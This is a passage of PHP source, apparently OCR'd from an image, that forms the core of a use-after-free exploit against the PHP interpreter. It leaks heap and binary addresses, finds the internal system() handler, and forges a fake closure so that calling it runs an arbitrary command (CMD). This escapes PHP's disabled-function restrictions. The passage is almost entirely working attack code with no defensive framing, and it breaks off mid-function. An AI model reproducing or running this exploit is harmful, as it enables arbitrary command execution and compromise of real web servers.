 ```php
        $this->helper = new Helper;
        $this->helper->b = function($x) {};

        $this->helper_addr = $this->str2ptr(CHUNK_SIZE * 2 - 0x18) - CHUNK_SIZE * 2;
        $this->log("helper @ 0x%x", $this->helper_addr);

        $this->abc_addr = $this->helper_addr - CHUNK_SIZE;
        $this->log("abc @ 0x%x", $this->abc_addr);

        $this->helper_off = $this->helper_addr - $this->abc_addr - 0x18;

        $helper_handlers = $this->str2ptr(CHUNK_SIZE);
        $this->log("helper handlers @ 0x%x", $helper_handlers);

        $this->prepare_leaker();

        $binary_leak = $this->read($helper_handlers + 8);
        $this->log("binary leak @ 0x%x", $binary_leak);
        $this->prepare_cleanup($binary_leak);

        $closure_addr = $this->str2ptr($this->helper_off + 0x38);
        $this->log("real closure @ 0x%x", $closure_addr);

        $closure_ce = $this->read($closure_addr + 0x10);
        $this->log("closure class_entry @ 0x%x", $closure_ce);

        $basic_funcs = $this->get_basic_funcs($closure_ce);
        $this->log("basic_functions @ 0x%x", $basic_funcs);

        $zif_system = $this->get_system($basic_funcs);
        $this->log("zif_system @ 0x%x", $zif_system);

        $fake_closure_off = $this->helper_off + CHUNK_SIZE * 2;
        for($i = 0; $i < 0x138; $i += 8) {
            $this->write($fake_closure_off + $i, $this->read($closure_addr + $i));
        }
        $this->write($fake_closure_off + 0x38, 1, 4);

        $handler_offset = PHP_MAJOR_VERSION === 8 ? 0x70 : 0x68;
        $this->write($fake_closure_off + $handler_offset, $zif_system);

        $fake_closure_addr = $this->helper_addr + $fake_closure_off - $this->helper_off;
        $this->write($this->helper_off + 0x38, $fake_closure_addr);
        $this->log("fake closure @ 0x%x", $fake_closure_addr);

        $this->cleanup();
        ($this->helper->b)(CMD);
    }

    private function make_uaf_obj() {
        $this->uafp = fopen('php://memory', 'w');
        fwrite($this->uafp, pack('QQQ', 1, 0, 0xDEADBAADC0DE));
        for($i = 0; $i < STRING_SIZE; $i++) {
            fwrite($this->uafp, "\x00");
        }
    }

    private function prepare_leaker() {
        $str_off = $this->helper_off + CHUNK_SIZE + 8;
        $this->write($str_off, 2);
        $this->write($str_off + 0x10, 6);

        $val_off = $this->helper_off + 0x48;
```